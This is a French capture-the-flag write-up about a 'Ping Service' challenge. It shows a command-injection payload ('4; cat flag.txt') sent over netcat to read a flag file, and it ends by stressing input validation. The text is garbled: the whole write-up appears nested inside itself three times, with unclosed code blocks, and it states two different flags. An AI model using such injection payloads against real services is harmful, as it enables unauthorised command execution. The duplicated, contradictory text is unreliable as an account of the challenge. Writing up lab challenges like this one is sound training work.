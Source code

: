 
# 🛠️ Write-up : Ping Service 🛠️

Bienvenue dans le défi **Ping Service** ! 🌐 Voici le scénario :

> "Je me suis créé un petit service en ligne pour pinguer ma machine et voir si tout fonctionne, c'est pas définitif, j'espère que personne ne pourra contourner le service..."

🕵️‍♂️ **Objectif** : Trouver le flag en accédant au service situé sur **10.29.135.5:2222**.

## 📋 Étapes pour résoudre le défi

### 1️⃣ Connexion au service
Nous utilisons la commande **netcat** pour interagir avec le service :
```bash
$ nc 10.29.135.5 2222
```
🎉 Une fois connecté, le service nous demande d'entrer un **nombre**. Par exemple :
```bash
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4
```
Cela envoie 4 pings à `127.0.0.1` et retourne les résultats.

### 2️⃣ Observation du comportement
🔍 J'ai essayé plusieurs commandes non valides pour voir comment le service réagit :
- `ls` ➡️ **"Veuillez entrer un nombre."**
- `pwd` ➡️ **"Veuillez entrer un nombre."**
- Toute commande non entière est rejetée.

### 3️⃣ Injection d'une commande 🛡️
Le service accepte des **entiers**, mais j'ai exploité cette validation en injectant une commande malveillante. 😈

💡 **Payload magique :**
```
> 4; cat flag.txt
```
✅ Ce payload envoie 4 pings **puis exécute `cat flag.txt`** pour lire le contenu du fichier contenant le flag.

### 4️⃣ Le flag ✨
Le service retourne le flag 🎯 :
```

# 🛠️ Write-up : Ping Service 🛠️

Bienvenue dans le défi **Ping Service** ! 🌐 Voici le scénario :

> "Je me suis créé un petit service en ligne pour pinguer ma machine et voir si tout fonctionne, c'est pas définitif, j'espère que personne ne pourra contourner le service..."

🕵️‍♂️ **Objectif** : Trouver le flag en accédant au service situé sur **10.29.135.5:2222**.

## 📋 Étapes pour résoudre le défi

### 1️⃣ Connexion au service
Nous utilisons la commande **netcat** pour interagir avec le service :
```bash
$ nc 10.29.135.5 2222
```
🎉 Une fois connecté, le service nous demande d'entrer un **nombre**. Par exemple :
```bash
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4
```
Cela envoie 4 pings à `127.0.0.1` et retourne les résultats.

### 2️⃣ Observation du comportement
🔍 J'ai essayé plusieurs commandes non valides pour voir comment le service réagit :
- `ls` ➡️ **"Veuillez entrer un nombre."**
- `pwd` ➡️ **"Veuillez entrer un nombre."**
- Toute commande non entière est rejetée.

### 3️⃣ Injection d'une commande 🛡️
Le service accepte des **entiers**, mais j'ai exploité cette validation en injectant une commande malveillante. 😈

💡 **Payload magique :**
```
> 4; cat flag.txt
```
✅ Ce payload envoie 4 pings **puis exécute `cat flag.txt`** pour lire le contenu du fichier contenant le flag.

### 4️⃣ Le flag ✨
Le service retourne le flag 🎯 :
```

# 🛠️ Write-up : Ping Service 🛠️

Bienvenue dans le défi **Ping Service** ! 🌐 Voici le scénario :

> "Je me suis créé un petit service en ligne pour pinguer ma machine et voir si tout fonctionne, c'est pas définitif, j'espère que personne ne pourra contourner le service..."

🕵️‍♂️ **Objectif** : Trouver le flag en accédant au service situé sur **10.29.135.5:2222**.

## 📋 Étapes pour résoudre le défi

### 1️⃣ Connexion au service
Nous utilisons la commande **netcat** pour interagir avec le service :
```bash
$ nc 10.29.135.5 2222
```
🎉 Une fois connecté, le service nous demande d'entrer un **nombre**. Par exemple :
```bash
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4
```
Cela envoie 4 pings à `127.0.0.1` et retourne les résultats.

### 2️⃣ Observation du comportement
🔍 J'ai essayé plusieurs commandes non valides pour voir comment le service réagit :
- `ls` ➡️ **"Veuillez entrer un nombre."**
- `pwd` ➡️ **"Veuillez entrer un nombre."**
- Toute commande non entière est rejetée.

### 3️⃣ Injection d'une commande 🛡️
Le service accepte des **entiers**, mais j'ai exploité cette validation en injectant une commande malveillante. 😈

💡 **Payload magique :**
```
> 4; cat flag.txt
```
✅ Ce payload envoie 4 pings **puis exécute `cat flag.txt`** pour lire le contenu du fichier contenant le flag.

### 4️⃣ Le flag ✨
Le service retourne le flag 🎯 :
```
Bravo, voici le flag de ce challenge:PasSécuCa!
```

## 📦 Commande complète :
```bash
$ nc 10.29.135.5 2222
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4; cat flag.txt
```
🚀 **Et voilà, mission accomplie !**

## 🥳 Conclusion
Ce challenge montre l'importance de valider correctement les entrées utilisateur pour éviter les **injections de commandes**. Bravo à vous pour avoir réussi ! 💪

🎉 **Flag** : `PasSécuCa!`

---

Restez curieux et continuez de hacker avec le sourire ! 😄✨

```

## 📦 Commande complète :
```bash
$ nc 10.29.135.5 2222
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4; cat flag.txt
```
🚀 **Et voilà, mission accomplie !**

## 🥳 Conclusion
Ce challenge montre l'importance de valider correctement les entrées utilisateur pour éviter les **injections de commandes**. Bravo à vous pour avoir réussi ! 💪

🎉 **Flag** : `NBCTF{ping_exploit_success}`

---

Restez curieux et continuez de hacker avec le sourire ! 😄✨

```

## 📦 Commande complète :
```bash
$ nc 10.29.135.5 2222
[PING SERVICE] Veuillez entrer le nombre de paquets :
> 4; cat flag.txt
```
🚀 **Et voilà, mission accomplie !**

## 🥳 Conclusion
Ce challenge montre l'importance de valider correctement les entrées utilisateur pour éviter les **injections de commandes**. Bravo à vous pour avoir réussi ! 💪

🎉 **Flag** : `NBCTF{ping_exploit_success}`

---

Restez curieux et continuez de hacker avec le sourire ! 😄✨
